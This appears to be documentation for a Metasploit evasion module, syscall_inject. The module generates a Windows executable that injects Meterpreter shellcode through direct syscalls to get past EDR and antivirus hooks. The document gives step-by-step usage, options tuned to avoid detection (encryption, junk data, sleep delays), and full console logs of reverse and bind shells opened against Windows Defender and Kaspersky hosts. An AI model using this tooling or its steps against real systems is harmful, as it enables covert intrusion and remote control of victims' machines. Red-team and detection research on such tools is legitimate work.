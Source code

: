 ## Description
This module lets you create a Windows executable that injects a specific payload/shellcode in memory bypassing EDR/AVs Windows API hooking technique via direct syscalls achieved by Mingw's inline assembly.
Mingw needs (x86_64) to be installed on the system and in the PATH environment variable.

The technique used is based on Sorting by System Call Address, by enumerating all Zw* stubs in the EAT of NTDLL.dll and then sorting them by address, it still works even if syscall indices were overwritten by AVs.
[For more details](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)

## Verification Steps
steps using a meterpreter/reverse_tcp payload on a 64-bits target:

1. `use evasion/windows/syscall_inject`
1. `set LHOST <local IP>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. `run`
1. Make sure that "Automatic Sample Submission" is off in Windows Defender
1. Copy the generated executable file to a specified location (e.g. target PC)  
1. Run it
1. Verify that you got a session without being blocked by Antimalware

## Options

### CIPHER
Encryption algorithm used to encrypt the payload. Available ones (CHACHA, RC4)

### FILENAME
Filename for the generated evasive file file. The default is random.

### JUNK
Adding random data such as names, emails and GUIDs to the final executable

### SLEEP
Specify how much the program sleeps in milliseconds prior to execute the shellcode's thread (NtCreateThread).
NOTE: the longer the better chance to avoid being detected.

## Advanced

### OptLevel
Optimization level passed to the compiler (Mingw)

## Scenarios
### Windows 10 (x64) version 20H2 with Defender
```
msf > use evasion/windows/syscall_inject 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf evasion(windows/syscall_inject) > set SLEEP 10000
SLEEP => 10000
msf evasion(windows/syscall_inject) > set LHOST 192.168.1.104
LHOST => 192.168.1.104
msf evasion(windows/syscall_inject) > run

[+] pYlCSOAeW.exe stored at /Users/user/.msf4/local/pYlCSOAeW.exe
msf evasion(windows/syscall_inject) > cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~
[*] exec: cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~

msf evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.104 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.1.104:4444 
msf evasion(windows/syscall_inject) > [*] Sending stage (200262 bytes) to 192.168.1.103
[*] Meterpreter session 3 opened (192.168.1.104:4444 -> 192.168.1.103:53007) at 2021-08-01 17:08:43 +0300

msf evasion(windows/syscall_inject) > sessions -i 3 
[*] Starting interaction with 3...

meterpreter > sysinfo 
Computer        : DESKTOP-822593D
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.103 - Meterpreter session 3 closed.  Reason: User exit
```
### Windows server 2012 (x64) with Kaspersky 10.2.6.3733
```
msf > use evasion/windows/syscall_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf evasion(windows/syscall_inject) > set payload windows/x64/meterpreter_bind_tcp 
payload => windows/x64/meterpreter_bind_tcp
msf evasion(windows/syscall_inject) > set RHOST 192.168.225.76
RHOST => 192.168.225.76
msf evasion(windows/syscall_inject) > set LPORT 10156
LPORT => 10156
msf evasion(windows/syscall_inject) > set cipher rc4
cipher => rc4
msf evasion(windows/syscall_inject) > run

[+] ShP.exe stored at /Users/medicus/.msf4/local/ShP.exe
msf evasion(windows/syscall_inject) > cp /Users/medicus/.msf4/local/ShP.exe ~
[*] exec: cp /Users/medicus/.msf4/local/ShP.exe ~

msf evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter_bind_tcp -H 192.168.225.76 -P 10156
[*] Payload handler running as background job 0.

[*] Started bind TCP handler against 192.168.225.76:10156
msf evasion(windows/syscall_inject) > [*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.225.76:10156) at 2021-08-01 17:32:05 +0300

msf evasion(windows/syscall_inject) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : LABCE28
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 386
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.225.76 - Meterpreter session 1 closed.  Reason: User exit
```

